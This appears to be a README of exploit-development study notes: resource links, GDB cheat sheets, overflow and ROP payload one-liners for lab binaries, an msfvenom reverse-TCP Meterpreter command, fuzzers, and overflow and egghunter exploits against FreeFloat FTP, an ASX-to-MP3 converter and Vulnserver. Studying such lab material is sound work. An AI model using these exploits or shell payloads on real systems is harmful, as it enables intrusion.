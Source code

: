 # Virtual Machines 

https://drive.google.com/drive/folders/1bbuteBoO86_bBBRw428Pyd6gHH9oI-kN?usp=sharing

(Might remove after 30 days from 12th Aug 2023)


## Resources

1. https://yaksas.in/courses/
2. https://kalitut.com/exploit-development-resources/
3. https://edu.anarcho-copy.org/GNU%20Linux%20-%20Unix-Like/Linux%20Exploit%20Development%20for%20Beginners.pdf
4. https://ia800205.us.archive.org/8/items/Wiley.The.Shellcoders.Handbook.2nd.Edition.Aug.2007/Wiley.The.Shellcoders.Handbook.2nd.Edition.Aug.2007.pdf
5. https://www.coalfire.com/the-coalfire-blog/the-basics-of-exploit-development
6. https://dayzerosec.com/blog/2021/02/02/getting-started.html
7. https://null-byte.wonderhowto.com/how-to/exploit-development-everything-you-need-know-0167801/
8. https://syrion.me/binary/elfx64-bypass-nx-with-mprotect/
9. https://fuzzysecurity.com/tutorials/expDev/1.html


### TOOLS

- Immunity Debugger
- OllyDbg
- xdbg
- Mona.py
- Ropper
- ROPGadgets
- Peda
- GDB



#### Linux

GDB : 
info functions
disas [function]
break *[address] 
break [function]
x/5i $eip (examine 5 instructyion of eip)
p $ebp-[value]
x/4wx [address]
x/100wx 0x[address]
x/wx $esp (after 3rd break pnt at ret)
x/s [address] (s is for string)

===============
Overflow-1
--------------

try accessing core file (file core (&) gdb ./binary ./core)
info functions
disas main
disas overflow()
break {push 0x0}
break {add esp,0x10 -- just after push 0x0}
break {ret - end one}
pass input to the binary
{when 1st break point is hit}
x/5i $eip
p $ebp-0x200 {as of lea}
x/4wx {address that we get from above output}
c
{break point 2 hit}
x/4wx {same address as of p}
x/100wx {same addr}
c
{3rd break point hit}
x/wx $esp

==============================
Overflow-101
----------------

Crash, exploit and obtain a shell 

=========================

python -c 'print "A"*516 + "B"*4 + "C"*180'

Compile: gcc -fno-stack-protector -z execstack program.c -o program
Disable ASLR: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

ROPgadget --ropchain --binary [file]

=======================
overflow-2
---------------

./overflow-2 $(python -c 'print "A"*64 + "\x01"')

===============
overflow-3
---------------

./overflow-3 $(python -c 'print "A"*64')
objdump -d overflow-3 | grep ">:"
[get the address of shell func]
 ./overflow-3 $(python -c 'print "A"*76 +"\xf8\x85\x04\x08"')

=======================
rop-1
----------

python -c 'print "A"\*140 + "BBBB"' | strace ./rop-1
python -c 'print "A"\*140 + "\xa4\x84\x04\x08"'| ./rop-1
(python -c 'print "A"\*140 + "\xa4\x84\x04\x08"';cat )| ./rop-1

=====================
rop-2
---------

python -c 'print "A"*140 + "BBBB" ' | strace ./rop-2
objdump -d rop-2 | grep system

:~ $ gdb rop-2
gdb-peda$ b*main
gdb-peda$ r
gdb-peda$ find /bin/bash
Searching for '/bin/bash' in: None ranges
Found 3 results, display max 3 items:
rop2-20f65dd0bcbe267d : 0x8048610 ("/bin/bash")
rop2-20f65dd0bcbe267d : 0x8049610 ("/bin/bash")
              [stack] : 0xffffd8a9 ("/bin/bash")
			  
(python -c 'print "A"*140 + "\xa0\x83\x04\x08" + "JUNK" + "\x10\x86\x04\x08"
';cat )| ./rop-2

=======================

#### Windows:

!mona jmp -r ESP
!mona rop -m *.dll -cp nonull

msfvenom -f python -p windows/exec cmd=calc -b '[bad chars]'
msfvenom -p windows/meterpreter/reverse_tcp LHOST={host} LPORT={port} -b '[bad char]' -f python


========================
FreeFloatFTP
-------------------
fuzz.spk

s_string("USER");
s_string(" ");
s_string("anonymous");
s_string("\r\n");
s_string("PASS ");
s_string("anonymous");
s_string("\r\n");

s_string("MKD ");
s_string_variable("SEDV");
s_string("\r\n");

========================
fuzz.py

import socket
import sys

buff = "A"*500

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect = s.connect(('192.168.200.138',21))

s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
s.send('MKD '+buff+'\r\n')
s.recv(1024)
s.send('QUIT\r\n')
s.close


============================
ASXtoMP3Coverter
--------------------------
fuzz.py

buffer = "http://"

buffer = "A"*20000

f=open("exploit.m3u","w")
f.write(buffer)
f.close()

===============
exploit.py


buffer = "http://"

shellcode = "\xcc"

badchar = "\x01\x02 ...... \xfe\xff"

buffer += "A"*[offset value]

buffer += [jmp ESP address]

buffer += "\x90"*50 # NoP

buffer += shellcode

buffer += badchar

buffer += "C"*(600-len(badchar)) # decreaseed by number of badchar - very long buffer might change the crash making exploit unusable

f=open("exploit.m3u","w")
f.write(buffer)
f.close()


===================
Vulnserver - KSTET
------------
fuzz.spk

s_readline();
s_string("KSTET ");
s_string_variable("test");

=====================
fuzz.py

import sys
import socket

evilString = "A" * 70 + "\xc7\x11\x50\x62" + "\xEB\xB8\x90\x90" + "C" * 150

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

command2 = "KSTET " + evilString

s.connect(('192.168.43.72',9999))
s.recv(1024)
s.send(command2)
s.close()

!mona findmsp   # search msf pattern
To generate egg :-  !mona egg -t [char]  # egg shellcode 

=================
exploit - KSTET
------------------

import sys
import socket

egg = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x59\x43\x53\x43\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

buf =  "exploit shell code"

shellcode = "ShellShell" + buf

shellString = "\x90"*18 + egg + "\x90"*20 + "\xc7\x11\x50\x62" +  "\xEB\xB8\x90\x90" +"C"*150

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

command1 = "HUNT " + shellcode

s.connect(('192.168.43.72',9999))
s.recv(1024)
s.send(command1)
s.close()

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

command2 = "KSTET " + shellString

s.connect(('192.168.43.72',9999))
s.recv(1024)
s.send(command2)
s.close()
